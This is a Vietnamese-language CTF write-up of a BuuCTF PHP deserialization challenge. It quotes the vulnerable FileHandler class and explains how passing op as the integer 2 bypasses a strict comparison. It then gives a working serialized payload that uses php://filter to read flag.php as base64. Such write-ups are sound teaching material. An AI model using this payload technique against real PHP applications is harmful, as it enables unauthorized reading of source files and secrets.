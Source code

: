 ![code](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/632a158f-fd89-4aa4-94a2-5309b151285c)

Nhìn vào source code, có thể thấy rằng phương thức GET chuyển vào chuỗi str được tuần tự hóa và phạm vi ASCII của mỗi ký tự trong chuỗi str nằm trong khoảng từ 32 đến 125, sau đó nó được giải tuần tự hóa.

Trong quá trình deserialization, phương thức ``destruct`` được gọi.

```
function __destruct() {
    if($this->op === "2")
        $this->op = "1";
    $this->content = "";
    $this->process();
}
```

Nếu op===="2", hãy gán nó thành "1", đồng thời gán nội dung thành rỗng, nhập hàm xử lý, điều cần chú ý là so sánh giữa op và "2" ở đây là một so sánh kiểu mạnh.

```
public function process() {
    if($this->op == "1") {
        $this->write();
    } else if($this->op == "2") {
        $res = $this->read();
        $this->output($res);
    } else {
        $this->output("Bad Hacker!");
    }
}
```

Sau khi nhập chức năng xử lý, nếu op=="1" thì nhập chức năng ghi, nếu op=="2" thì nhập chức năng đọc, nếu không đầu ra sẽ báo lỗi, có thể thấy sự so sánh giữa op và string ở đây trở thành kiểu yếu So sánh ==.

Vì vậy, chúng ta chỉ cần thực hiện op=2, trong đó 2 là một số nguyên int. Khi op=2, op==="2" là sai, op=="2" là đúng, sau đó nhập hàm đọc.

```
private function read() {
    $res = "";
    if(isset($this->filename)) {
        $res = file_get_contents($this->filename);
    }
    return $res;
}
```

tên tệp là thứ có thể kiểm soát, sau đó sử dụng hàm file_get_contents để đọc tệp, ở đây mình sử dụng giả giao thức ``php://filter`` để đọc tệp và sử dụng hàm đầu ra để xuất tệp sau khi lấy.

```
private function output($s) {
    echo "[Result]: <br>";
    echo $s;
}
```

Đây có thể là Lỗ hổng PHP deserialization, mình thử với payload sau:

``http://b7a04dd1-244c-4f5a-865c-f6788b87f7ee.node4.buuoj.cn:81/?str=O:11:%22FileHandler%22:3:{s:2:%22op%22;i:2;s:8:%22filename%22;s:57:%22php://filter/read=convert.base64-encode/resource=flag.php%22;s:7:%22content%22;N;}``


  -  "O:11" là mã định danh cho đối tượng, trong trường hợp này là một đối tượng của lớp "FileHandler".
  -  "%22FileHandler%22" là tên của lớp.
  -  "3" là số lượng thuộc tính của đối tượng.
  -  Tiếp theo là các thuộc tính của đối tượng được liệt kê theo định dạng "s:size:"value";", trong đó:
      -  "s" là kiểu dữ liệu của thuộc tính (trong trường hợp này là chuỗi).
      -  "size" là số lượng ký tự của chuỗi.
      -  "value" là giá trị của chuỗi.
  -  ":i:2;" là giá trị của thuộc tính "op" của đối tượng, có kiểu dữ liệu là số nguyên và có giá trị là 2.
  -  ":s:8:%22filename%22;s:57:%22php://filter/read=convert.base64-encode/resource=flag.php%22;" là giá trị của thuộc tính "filename" của đối tượng, có kiểu dữ liệu là chuỗi và có giá trị là "php://filter/read=convert.base64-encode/resource=flag.php".
  -  ":s:7:%22content%22;N;" là giá trị của thuộc tính "content" của đối tượng, có kiểu dữ liệu là null.

Khi đoạn mã PHP nhận được giá trị này thông qua biến "str", nó sẽ thực hiện giải mã và tạo ra một đối tượng của lớp "FileHandler" với các thuộc tính tương ứng. Trong trường hợp này, giá trị của thuộc tính "filename" là "php://filter/read=convert.base64-encode/resource=flag.php", tức là yêu cầu đọc nội dung của tệp "flag.php", mã hóa nó bằng Base64 và trả về kết quả.

![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/911213cb-13dd-4544-83ed-26f22bd7c605)

![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/dab24410-0129-4bd1-a918-3879d9aaaab7)
